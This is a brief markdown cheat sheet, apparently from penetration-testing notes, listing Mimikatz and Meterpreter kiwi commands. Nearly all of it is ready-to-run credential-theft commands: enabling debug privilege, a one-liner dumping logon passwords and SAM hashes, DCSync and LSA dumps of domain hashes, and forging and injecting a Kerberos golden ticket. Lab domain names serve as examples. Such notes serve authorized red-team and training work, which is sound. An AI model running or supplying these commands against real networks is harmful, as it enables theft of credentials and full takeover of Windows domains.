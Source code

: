 # Mimikatz

Use Mimikatz to dump local and domain plaintext credentials and hashes.

---

## Ensure you have administrative privileges

On a **Mimikatz prompt**:

```powershell
mimikatz: privilege::debug
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > kiwi_cmd privilege::debug
```

If the output is **Privilege '20' OK**, you're good to move forward.

---

## Mimikatz One-Liner to Dump Local Hashes & Secrets

```powershell
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

---

## Dump Domain Hashes (dcsync method)

On a **Mimikatz prompt**:

```powershell
mimikatz: lsadump::dcsync /domain:$DOMAIN_NAME /all # HYDRA.test
```

```powershell
mimikatz: lsadump::dcsync /domain:marvel.test /all # HYDRA.test
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > dcsync_ntlm $DOMAIN_USER # HYDRA\\grant.ward
```

---

## Dump Domain Hashes (lsa method)

On a **Mimikatz prompt**:

```powershell
mimikatz: lsadump::lsa /patch
```

---

## Create and Use a golden ticket

```powershell
mimikatz: kerberos::golden /user:$TARGET_USER_NAME /domain:$DOMAIN_NAME /sid:$DOMAIN_SID /krbtgt:$KRBTGT_NTLM /id:$TARGET_USER_ID /ptt
```

![Creating a golden ticket using Mimikatz](golden-ticket-kerberos-golden.png)

Open up a new command prompt that leverages the golden ticket (must be in a GUI session to access the new command prompt).

```powershell
mimikatz: misc::cmd
```
